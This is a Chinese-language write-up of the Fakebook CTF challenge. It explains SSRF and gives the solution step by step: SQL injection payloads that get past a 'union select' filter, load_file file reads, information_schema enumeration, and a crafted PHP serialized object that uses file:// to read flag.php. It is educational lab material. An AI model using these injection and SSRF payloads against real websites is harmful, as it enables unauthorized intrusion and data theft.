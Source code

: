 # [网鼎杯 2018]Fakebook 1

## SSRF

SSRF(Server-Side Request Forgery:服务器端请求伪造) 是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。一般情况下，SSRF是要目标网站的内部系统。（因为他是从内部系统访问的，所有可以通过它攻击外网无法访问的内部系统，也就是把目标网站当中间人）

SSRF 形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能，且没有对目标地址做过滤与限制。比如从指定URL地址获取网页文本内容，加载指定地址的图片，文档，等等。

举例 ： A网站，是一个所有人都可以访问的外网网站，B网站是一个他们内部的OA网站。

所以，我们普通用户只可以访问a网站，不能访问b网站。但是我们可以同过a网站做中间人，访问b网站，从而达到攻击b网站需求。

## WP

用dirsearch扫描,得到user.php.bak文件
```php
<?php
 
 
class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";
 
    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }
 
    function get($url)
    {
        $ch = curl_init();
 
        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);
 
        return $output;
    }                                                                    //这部分可能存在ssrf
 
    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }
 
    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }
 
} 
```
有一个UserInfo的类,类中有三个公共的类变量：name,age,blog。一个构造方法，一个get方法。主要的工作应该是建立会话，

然后判断是否是有效的请求，如果不是则返回404，如果不是则返回url的内容，一个getBlogContents方法，返回一个url的内容

还有一个isValidBlog验证这是否是一个有效的blog地址

get方法中，curl_exec()如果使用不当就会导致ssrf漏洞。有一点思路了，而我们扫到了flag.php。猜测可能flag.php处于内网，

如果用ssrf访问flag.php，可以用伪协议file://var/www/html/flag.php访问。

我们先回到首页，点join注册一个账号

在url中,发现no这个地方可以注入
```sql
no=1 order by 4#                                      //没事
no=1 order by 5#                                      //报错,有4列
no=-1 union/**/select 1,2,3,4#                        //发现过滤了union select,可以用过union/**/select绕过,用/**/代替空格
```
回显位是username,然后还发现了一下错误信息，/var/www/html/view.php刚才扫目录得知flag.php也在这个目录中。

然后我们开始查数据库和数据库信息
```sql
?no=-1 union/**/select 1,database(),3,4--+              //数据库名
?no=-1 union/**/select 1,user(),3,4--+　　　　            //数据库信息
```
发现居然是root权限，那我们知道有一个load_file()函数可以利用绝对路径去加载一个文件，于是我们利用一下

load_file(file_name):file_name是一个完整的路径，于是我们直接用var/www/html/flag.php路径去访问一下这个文件
```sql
?no=-1 union/**/select 1,load_file("/var/www/html/flag.php"),3,4--+
```
得到了flag,换一种方法
```sql
?no=-1 union/**/select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema=database()--+    //爆数据库表
?no=-1 union/**/select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='users'--+        //爆字段名
```
这里面no，username,password我们都知道是什么，就data有点猫腻，于是我们查看它一下，于是我们爆data内容：
```sql
?no=-1 union/**/select 1,group_concat(data),3,4 from users
```
`O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:3;s:4:"blog";s:8:"123.blog";}`

这个data本来回显的是我们自己的博客，但我们把它改为回显flag.php就可以构成ssrf
```txt
O:8:"UserInfo":3:{s:4:"name";s:3:"123";s:3:"age";i:123;s:4:"blog";s:29:"file:///var/www/html/flag.php";}
```
data字段在第4位，所以放在第4位。

构造payload
```payload
?no=-1 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:3:"123";s:3:"age";i:123;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'
```
查看页面源代码，base64解码也可得到flag

